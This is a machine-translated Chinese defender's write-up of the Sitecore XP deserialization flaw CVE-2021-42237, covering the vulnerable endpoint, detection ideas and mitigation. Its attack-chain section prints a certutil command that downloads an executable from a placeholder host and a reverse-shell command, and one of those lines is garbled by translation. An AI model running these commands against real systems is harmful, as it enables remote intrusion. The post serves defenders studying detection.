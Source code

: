 # 从一个捍卫者的角度看 Sitecore XP 反序列化 RCE(CVE-2021–42237)

> 原文：<https://medium.com/nerd-for-tech/a-defenders-perspective-of-sitecore-xp-deserialization-rce-cve-2021-42237-dcd5355ca591?source=collection_archive---------1----------------------->

![](img/464e5beeb1ed34b439210d89f94c37c7.png)

路易斯·康的照片在 [Unsplash](https://unsplash.com/s/photos/code-execution?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

Sitecore 的体验平台(XP)是一个. NET 企业内容管理系统(CMS)。Sitecore XP 为您提供了用于内容管理、数字营销以及分析和报告的工具。

## CVE-2021–42237

Sitecore XP 7.5 到 Sitecore XP 8.2 Update-7 的初始版本容易受到不安全的反序列化攻击，攻击者可能在机器上远程执行命令。利用此漏洞不需要身份验证或特殊配置。

# 入门前的关键概念

## 不安全的反序列化

序列化是将对象转换为静态字节流，可以保存到数据库或通过网络传输。反序列化是该过程的逆过程，从字节流重建数据结构或对象。

当不受信任的数据被用来滥用应用程序的逻辑，造成拒绝服务(DoS)攻击，甚至在反序列化后执行任意代码时，就会出现此漏洞。
当用户可控制的数据被网站反序列化时，这可能会使攻击者操纵序列化对象，将有害数据传递到应用程序代码中。

## Web 外壳

web 外壳通常是用典型的 web 开发编程语言(例如，ASP、PHP、JSP)编写的一小段恶意代码，攻击者将其植入 web 服务器以提供对服务器功能的远程访问和代码执行。

运行可疑进程(如“cmd.exe /c echo”、“certutil.exe”或“powershell.exe”)的 IIS 实例(w3wp.exe)会导致在可通过 web 访问的文件夹中创建脚本文件，这种情况很少见，通常是 web shell 活动的明显迹象。

## 打嗝合作者

Burp Suite 用来帮助发现多种漏洞的网络服务。
Collaborator 客户端可用于生成手动测试中使用的有效负载，并轮询 Collaborator 服务器使用这些有效负载产生的任何网络交互。

## CertUtil

用于处理证书的 Windows 二进制文件。

certutil 的预期用途是转储和显示证书颁发机构(CA)配置信息、配置证书服务、备份和还原 CA 组件以及验证证书、密钥对或证书链。但是，攻击者可以使用该工具通过 URL 模式(ftp://、http://等)从互联网获取数据。

# 典型的攻击会是什么样子？

1.  Sitecore XP 在 Report.ashx 文件中使用不安全的反序列化，攻击者可以利用该文件在系统上执行任意代码
2.  对易受攻击的服务器的扫描尝试

```
URI: “/sitecore/shell/ClientBin/Reporting/Report.ashx”
```

3.nslookup 从端点到 burpcollaborator 域

```
nslookup 5ouceXYZQtem.burpcollaborator.net
```

4.有效载荷下载

```
“C:\Windows\System32\cmd.exe” /c certutil -urlcache -f https://5ouceXYZQtem.burpcollaborator.netcertutil -f -urlcache http://A.B.C.D:8000/file.exe C:\Windows\Temp\file.exe
```

5.反向外壳

```
C:\Windows\Temp\file.exe A.B.C.D 4444 -e cmd
```

通过成功利用此漏洞，攻击者可以以运行 IIS 实例的用户身份执行任意代码。然后，攻击者可以使用“getsystem”命令来使用 RPCSS 模拟并获得系统级代码执行。

# 侦查思路

1.  certutil
    的可疑用法确定 certutil.exe 正在进行网络连接。对手可以滥用 certutil.exe 从远程网址下载证书或恶意软件。[链接](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_certutil_command.yml)为适马统治。
2.  可疑 nslookup 流量
    nslookup.exe 执行和查询*.burpcollaborator.net 域

# 减轻

建议的解决方案是升级到安全版本，最好是 Sitecore XP 9.0 或更高版本。或者，可以通过在所有服务器实例上删除“/sitecore/shell/client bin/Reporting/Report.ashx”中的 report . ashx 文件来缓解该漏洞。

# 参考

【https://blog.assetnote.io/2021/11/02/sitecore-rce/
[https://cve.mitre.org/cgi-bin/cvename.cgi?](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42237)[name = https://lolbas-project.github.io/lolbas/Binaries/Certutil/ CVE-2021-42237](https://blog.assetnote.io/2021/11/02/sitecore-rce/)